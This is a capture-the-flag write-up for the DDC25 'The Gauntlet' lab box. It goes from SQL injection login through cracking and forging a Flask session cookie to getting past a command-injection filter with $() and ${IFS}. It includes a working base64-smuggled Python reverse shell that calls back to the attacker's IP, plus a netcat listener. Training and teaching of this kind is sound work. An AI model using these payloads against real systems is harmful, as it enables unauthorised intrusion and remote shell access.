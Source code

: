```yaml
---
title: The Gauntlet Pt. 1 🥇
date: 2025-03-17 00:01 +/-TTTT
categories: [CTF Writeups, DDC25]
tags: [DDC, Boot2Root, Web Exploitation] 
media_subpath: /assets/img/TheGauntlet
---
```


## 🗒️ Challenge description 
>So, you think you're a l33t h4xx0r? Alright, here's my little gauntlet to you then: Break in through the website and get a shell one way or another. Once that's done, escalate your privileges and own the box. You won't be needing any fancy kernel exploits or such, this one's all about bad practices and misconfigurations. Doesn't sound too hard, now does it? Good luck!

>Flag binaries are located at /home/*****/user.flag and /root/root.flag

> the-gauntlet.hkn

## 😎 Writeup

Visiting the website in the browser yields connection refused, which means the website is not running on the default port 80. Running a port scan reveals that the website is running on port 5000.

```bash
nmap -p- -sV -sC -T4 the-gauntlet.hkn
PORT     STATE SERVICE VERSION
5000/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.7.3)
```

Navigating to the website, we see a simple login page. Trying to login with the character `'` in the username field gives us an error message. This indicates that the website may be vulnerable to SQL injection.

Attempting to login with the very common SQL payload `' or 1=1 --` in the username field logs us in as the `Bob` user.

There is an admin page, but our user Bob is not an admin.
Attempting to login with an admin username yields no results.

Our session cookie looks a lot like a JTW, but knowing that the server is liekly running Flask (From the Werkzeug httpd version), it's likely a Flask session cookie.

We can use the `flask-unsign` tool to decode the cookie and see what's inside.

```bash
$ flask-unsign --cookie "eyJ1c2VyIjp7ImlzX2FkbWluIjpmYWxzZSwidXNlcm5hbWUiOiJCb2IifX0.Z9dRAQ.VMZ6dtW1yBAULzog_qaILJCn8jc" --decode
$ {'user': {'is_admin': False, 'username': 'Bob'}}
```

The user Bob is clearly not admin. We can't just change the flask session cookie directly, because it is signed with a secret key. However, we can attempt to crack the secret key using a wordlist, such as the well-known `rockyou.txt`.

```bash
$ flask-unsign --cookie "eyJ1c2VyIjp7ImlzX2FkbWluIjpmYWxzZSwidXNlcm5hbWUiOiJCb2IifX0.Z9dRAQ.VMZ6dtW1yBAULzog_qaILJCn8jc" --unsign --wordlist ~/Downloads/rockyou.txt --no-literal-eval
[*] Session decodes to: {'user': {'is_admin': False, 'username': 'Bob'}}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 11264 attempts
b'itsasecret'
```

We got it! The secret is `itsasecret`. Now we can craft our own session cookie and sign it with the secret key.

```bash
$ flask-unsign --secret itsasecret -s --cookie "{'user': {'is_admin': False, 'username': 'Bob'}}"
eyJ1c2VyIjp7ImlzX2FkbWluIjpmYWxzZSwidXNlcm5hbWUiOiJCb2IifX0.Z9dTQQ.6nlu0kizN9TCtjct7R6GVti_1Z8
```

Now we can change the session cookie in our browser to the crafted one and refresh the page. We are now logged in as the admin user.
The admin page contains a ping tool that allows us to ping an IP address. This may be vulnerable to command injection. Attempting to ping the address `127.0.0.1 & whoami` could give us the current user. However, upon trying this we get an error message: `Illegal characters detected`.

Upon further trial and error, we find that `&`, `|`, `;`, and `&&` are all blocked. Even all whitespaces are blocked. This makes it incredibly difficult to perform command injection. But not impossible...

We can use the `$(command)` syntax to execute commands. This syntax is not blocked by the filter. We can use this to execute the command `$(whoami)`, which gives us `user1` in the output, awesome! We have (cursed) command injecion! 🎉

Now we just need to somehow create a reverse shell. But looking at [revshells.com](https://www.revshells.com/), we see that all the reverse shells require the use of illegal characters. The biggest problem is the lack of spaces. But there is a shell trick that allows us to bypass this limitation: the `IFS` variable. Typing `${IFS}` is equivalent to typing a space. 

Create a reverse shell is still very tricky with the limited characters we have. We can potentially use a python reverse shell, and encode it in base64 to avoid using illegal characters. We can then decode the base64 on the server side.

```python
BASE_URL = 'http://10.42.4.137:5000'
OUR_IP = '10.0.240.251'
PORT = 4242
python_payload = 'socket=__import__("socket");os=__import__("os");pty=__import__("pty");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("' + OUR_IP + '",' + str(PORT) + '));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

s = requests.Session()
s.cookies['session'] = 'eyJ1c2VyIjp7ImlzX2FkbWluIjp0cnVlLCJ1c2VybmFtZSI6IkJvYiJ9fQ.Z7pi7A.i2nPlzBdXCYgAivTzHxXx8pdxTg'

s.post(BASE_URL + "/admin", data={"command": "$(echo${IFS}'" + base64.b64encode(python_payload.encode()).decode() + "'>base64_payload.txt)"})
```

This will create a file `base64_payload.txt` on the server with the base64 encoded python payload. We can then decode this payload using on the server.

```python
s.post(BASE_URL + "/admin", data={"command": "$(base64${IFS}-d${IFS}base64_payload.txt>shell.py)"})
```

This will create a file `shell.py` on the server with the decoded python payload. Now lets listen for the reverse shell.

```bash
nc -l 4242
```

Finally, we can execute the python payload to get a reverse shell.

```python
s.post(BASE_URL + "/admin", data={"command": "$(python${IFS}shell.py)"})
```

We now have a reverse shell as the user `user1`. We can find the user flag at `/home/user1/user.flag`.

```bash
$ ./home/user1/user.flag
$ Press enter within 3 seconds:
$ DDC{n0th1ng_l1k3_4_b1t_0f_RCE}
```

And that's our flag! 🚩

## 🤓 TL;DR
1. Found Flask website running on port 5000
2. Used SQL injection (`' or 1=1 --`) to login as Bob
3. Cracked session cookie secret key with flask-unsign (`itsasecret`)
4. Forged admin cookie to access admin panel
5. Bypassed command injection filter with `$()` and `${IFS}`
6. Created base64-encoded Python reverse shell
7. Got reverse shell and flag: `DDC{n0th1ng_l1k3_4_b1t_0f_RCE}`